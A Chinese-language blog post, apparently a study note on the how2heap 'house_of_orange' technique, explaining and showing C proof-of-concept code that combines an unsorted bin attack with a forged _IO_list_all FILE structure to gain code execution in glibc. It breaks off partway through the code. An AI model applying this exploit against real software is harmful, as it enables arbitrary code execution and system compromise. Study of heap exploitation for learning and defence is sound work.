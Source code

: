 ```yaml
---
layout: post
title: how2heap - house_of_orange
category: Heap Exploitation
published: true
---
```


## house_of_orange

### unsorted bin attack + FSOP

先是利用unsorted bin attack来实现任意地址改写，再通过伪造`__IO_list_all`结构体来完成任意代码执行，具体分析见下。（下面源码中删除了大段的注释和log。）

```c
int winner ( char *ptr);

int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;

    // 1
    p1 = malloc(0x400-16);

    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;

    p2 = malloc(0x1000);

    io_list_all = top[2] + 0x9a8;
 
    top[3] = io_list_all - 0x10;

    memcpy( ( char *) top, "/bin/sh\x00", 8);

    top[1] = 0x61;

    /*
      Now comes the part where we satisfy the constraints on the fake file pointer
      required by the function _IO_flush_all_lockp and tested here:
      https://code.woboq.org/userspace/glibc/libio/genops.c.html#813

      We want to satisfy the first condition:
      fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base
    */

    FILE *fp = (FILE *) top;


    /*
      1. Set mode to 0: fp->_mode <= 0
    */

    fp->_mode = 0; // top+0xc0


    /*
      2. Set write_base to 2 and write_ptr to 3: fp->_IO_write_ptr > fp->_IO_write_base
    */

    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28
```
